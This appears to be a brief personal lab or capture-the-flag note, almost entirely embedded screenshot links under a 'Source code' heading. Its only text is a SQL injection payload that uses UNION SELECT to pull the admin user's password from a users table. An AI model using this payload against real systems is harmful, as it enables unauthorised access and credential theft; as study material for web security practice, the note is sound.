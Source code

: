 
![[Images/Pasted image 20240927123222.png]]
![[Images/Pasted image 20240927123204.png]]
![[Images/Pasted image 20240927123301.png]]
![[Images/Pasted image 20240927123349.png]]

![[Images/Pasted image 20240927123440.png]]
![[Images/Pasted image 20240927123546.png]]

'union select 1,2,3,4,5,6,7,8,password from users where username='admin' -- -
![[Images/Pasted image 20240927123807.png]]


